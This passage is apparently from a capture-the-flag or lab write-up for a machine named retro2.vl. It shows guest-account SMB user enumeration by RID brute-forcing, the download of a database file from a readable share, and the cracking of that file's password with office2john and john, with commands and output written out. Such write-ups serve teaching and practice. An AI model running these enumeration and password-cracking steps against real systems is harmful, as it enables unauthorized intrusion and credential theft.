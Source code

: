 ```sh
$ nxc smb retro2.vl -u 'Guest' -p ''  --rid-brute  | grep 'SidTypeUser' > users
$ cat users  | awk '{print $6}' | cut -d '\' -f 2 > users.txt ; rm users
```
> there is a `Public` share tha we can read, so let's see what is there 
```sh
$ smbclient //retro2.vl/Public 'Guest'
Try "help" to get a list of possible commands.
smb: \> 
smb: \> ls
  .                                   D        0  Sat Aug 17 16:30:37 2024
  ..                                  D        0  Sat Aug 17 16:30:37 2024
  DB                                  D        0  Sat Aug 17 14:07:06 2024
  Temp                                D        0  Sat Aug 17 13:58:05 2024

		6290943 blocks of size 4096. 1332470 blocks available
smb: \> cd DB\
smb: \DB\> ls
  .                                   D        0  Sat Aug 17 14:07:06 2024
  ..                                  D        0  Sat Aug 17 14:07:06 2024
  staff.accdb                         A   876544  Sat Aug 17 16:30:19 2024

		6290943 blocks of size 4096. 1328797 blocks available
smb: \DB\> get staff.accdb 
getting file \DB\staff.accdb of size 876544 as staff.accdb (1990.7 KiloBytes/sec) (average 1990.7 KiloBytes/sec)
smb: \DB\> cd ..
smb: \> ls
  .                                   D        0  Sat Aug 17 16:30:37 2024
  ..                                  D        0  Sat Aug 17 16:30:37 2024
  DB                                  D        0  Sat Aug 17 14:07:06 2024
  Temp                                D        0  Sat Aug 17 13:58:05 2024

		6290943 blocks of size 4096. 1328797 blocks available
smb: \> cd Temp\
smb: \Temp\> ls
  .                                   D        0  Sat Aug 17 13:58:05 2024
  ..                                  D        0  Sat Aug 17 13:58:05 2024

		6290943 blocks of size 4096. 1322876 blocks available
```

ahah !!! , we found `staff.accdb`.
```sh
$ file staff.accdb
staff.accdb: Microsoft Access Database
```

I ty to open it using some on line platforms , but it apears that it's a password protected , let try to crvk it 

```sh
$ office2john staff.accdb > hash.txt
$ john hash.txt  --wordlist=rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 256/256 AVX2 8x / SHA512 256/256 AVX2 4x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
class08          (staff.accdb)     
1g 0:00:00:14 DONE (2025-09-21 00:21) 0.06798g/s 313.2p/s 313.2c/s 313.2C/s giovanna..class08
Use the "--show" option to display all of the cracked passwords reliably
Session completed.          
```
